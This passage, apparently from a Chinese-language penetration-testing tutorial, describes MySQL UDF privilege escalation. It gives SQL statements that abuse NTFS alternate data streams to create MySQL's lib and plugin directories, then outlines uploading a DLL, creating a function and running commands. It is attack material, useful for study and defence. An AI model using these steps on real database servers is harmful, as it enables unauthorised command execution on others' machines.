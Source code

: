 网上有个说法，利用**NTFS ADS**流模式突破进而创建文件夹。
这个方法我没有成功过，我将方法帖出来，有兴趣的可以去试一试，成功了务必告诉我，谢谢。

```
select @@basedir;  //查找到mysql的目录
 
select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib::$INDEX_ALLOCATION';    //利用NTFS ADS创建lib目录
 
select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib\\plugin::$INDEX_ALLOCATION';    //利用NTFS ADS创建plugin目录
```
这里为了演示，我直接在目标上进行文件夹的创建。然后再次查看文件夹，就可以看到文件夹位置了。

![](/img/udf/d9fd177b-f5a8-4e8a-83be-21a2cf9f5619.png)

之后的步骤就和上面步骤差不多。解码dll文件，上传到plugin里，创建函数，执行命令，删除函数。这里我就不详细说了。

上传dll

![](/img/udf/1800ea6a-2140-4b33-aac2-ccd543463963.png)
